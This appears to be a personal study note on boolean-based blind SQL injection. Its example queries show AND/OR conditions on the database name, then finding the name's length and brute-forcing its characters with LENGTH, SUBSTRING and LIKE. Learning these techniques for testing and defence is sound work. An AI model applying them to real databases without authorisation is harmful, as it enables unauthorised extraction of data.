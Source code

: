 ```yaml
---
tags:
  - security
  - sqli
  - web
title: BOOLEAN based (Blind) Injection
date: 2024-01-28 14:15:56 -0600
---
```


If the 1st part of the where clause is correct we can use the AND operator to get result

````sql
SELECT * 
FROM users 
WHERE id=1 AND database()="sbva";
````

If the 1st part of the where clause is wrong we can use the OR operator to get result

````sql
SELECT * 
FROM users 
WHERE id=2 OR database()="sbva";
````

### Finding Database Name
``
#### Find Length of Name

````sql
SELECT * 
FROM users 
WHERE id=2 OR LENGTH(database())="1";
````

#### Brute Force the Characters

```sql
SELECT * 
FROM users 
WHERE id=2 OR substring(database(), 1, 1)="s";

SELECT * 
FROM users 
WHERE id=2 or substring(database(), 2, 1)="s";
```

#### Try to Find Matching Pattern

```sql
SELECT * 
FROM users 
WHERE id=2 OR database() LIKE "%s%";
```
